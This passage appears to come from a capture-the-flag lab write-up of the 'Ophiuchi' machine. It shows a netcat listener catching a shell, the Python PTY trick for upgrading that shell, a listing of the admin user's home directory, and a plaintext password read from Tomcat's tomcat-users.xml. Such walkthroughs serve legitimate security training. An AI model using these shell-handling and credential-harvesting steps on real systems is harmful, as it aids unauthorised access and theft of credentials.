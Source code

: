 
I’ll upgrade my shell with the standard Python trick:

    
    
    tomcat@ophiuchi:/$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    tomcat@ophiuchi:/$ ^Z
    [1]+  Stopped                 sudo nc -lnvp 443
    oxdf@parrot$ stty raw -echo ; fg
    sudo nc -lnvp 443
                     reset
    reset: unknown terminal type unknown
    Terminal type? screen
    tomcat@ophiuchi:/$ 
    

## Shell as admin

There’s one real user on the box, admin, and their home directory has
`user.txt`, but I can’t read it as tomcat:

    
    
    tomcat@ophiuchi:/home/admin$ ls -la
    total 32
    drwxr-xr-x 4 admin admin 4096 Jan  7 09:18 .
    drwxr-xr-x 3 root  root  4096 Dec 28 00:18 ..
    lrwxrwxrwx 1 root  root     9 Dec 28 00:51 .bash_history -> /dev/null
    -rw-r--r-- 1 admin admin  220 Dec 28 00:18 .bash_logout
    -rw-r--r-- 1 admin admin 3771 Dec 28 00:18 .bashrc
    drwx------ 2 admin admin 4096 Dec 28 00:35 .cache
    drwx------ 4 admin admin 4096 Jan  6 08:31 .gnupg
    -rw-r--r-- 1 admin admin  807 Dec 28 00:18 .profile
    -rw-r--r-- 1 admin admin    0 Jan  7 09:18 .sudo_as_admin_successful
    -r-------- 1 admin admin   33 Oct 14 19:56 user.txt
    lrwxrwxrwx 1 root  root     9 Jan  7 09:11 .viminfo -> /dev/null
    

As the tomcat user, the current home directory is `/opt/tomcat`:

    
    
    tomcat@ophiuchi:~$ pwd
    /opt/tomcat
    

`/opt/tomcat/conf/tomcat-users.xml` has the username and password for Tomcat:

    
    
    <?xml version="1.0" encoding="UTF-8"?>
    ...[snip]...
    <tomcat-users xmlns="http://tomcat.apache.org/xml"
                  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                  xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
            version="1.0">
    <user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
    ...[snip]...
    